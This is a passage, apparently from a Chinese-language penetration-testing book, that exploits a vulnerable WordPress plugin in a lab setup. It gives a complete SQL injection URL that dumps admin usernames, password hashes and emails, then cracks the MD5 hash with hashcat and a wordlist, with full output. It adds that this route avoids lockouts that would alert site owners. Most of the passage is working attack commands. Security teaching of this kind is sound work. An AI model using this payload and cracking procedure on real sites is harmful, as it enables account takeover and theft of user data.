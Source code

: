 1.  如果我们将前面示例中的 URL 示例应用到我们的目录结构中，我们得到以下内容：

```
http://192.168.56.100/wordpress/wp-content/plugins/wpSS/ss_load.php?ss_id=1+and+(1=0)+union+select+1,concat(user_login,0x3a,user_pass,0x3a,user_email),3,4+from+wp_users--&display=plain
```

1.  通过上述 URL，我们将其输入到 Firefox 浏览器中并访问该页面。由于 SQL 注入，我们看到了用户（管理员）、哈希密码和 ID 为 `1` 的用户的电子邮件地址：

![](img/5a2f1100-b9d2-405f-9727-a5a587d88750.png)通过漏洞插件获取的管理员用户信息

1.  让我们将其添加到文件中，以便通过 hashcat 运行并获取密码：

```
root@kali:~/Chapter9# echo 21232f297a57a5a743894a0e4a801fc3 > wp_admin.txt
```

1.  需要注意的是，在 WordPress 版本 2.4 及之前的版本中，密码是作为未加盐的 MD5 哈希存储的，因此我们需要告诉 hashcat 格式是 MD5（`-m 0`），以使用我们保存到 `wp_admin.txt` 中的哈希，并使用本地的 `rockyou.txt` 字典：

```
hashcat -m 0 wp_admin.txt ./rockyou.txt
```

1.  Hashcat 现在将通过 `rockyou.txt` 运行并显示以下内容，其中包括管理员帐户的密码（在本例中是 `admin`）：

```
Session..........: hashcat
Status...........: Cracked
Hash.Type........: MD5
Hash.Target......: 21232f297a57a5a743894a0e4a801fc3
Time.Started.....: Thu Aug 31 22:25:21 2017 (0 secs)
Time.Estimated...: Thu Aug 31 22:25:21 2017 (0 secs)
Guess.Base.......: File (./rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.Dev.#1.....: 3059.9 kH/s (0.24ms)
Recovered........: 1/1 (100.00%) Digests, 1/1 (100.00%) Salts
Progress.........: 20480/14343297 (0.14%)
Rejected.........: 0/20480 (0.00%)
Restore.Point....: 19456/14343297 (0.14%)
Candidates.#1....: admin -> admin
HWMon.Dev.#1.....: N/A
```

1.  拥有管理员用户账户密码后，我们可以在登录到 WordPress 实例后为所欲为，包括添加/删除账户、添加/删除插件、上传我们选择的文件等等。

在这个例子中，我们通过 SQL 注入获取了管理员用户的哈希密码，这比暴力破解更可取，因为暴力破解可能会锁定账户并提醒目标系统所有者。WPScan 有远程暴力破解攻击功能，并会尝试定位旨在防止暴力破解攻击的插件。

# 执行 SQL 注入攻击
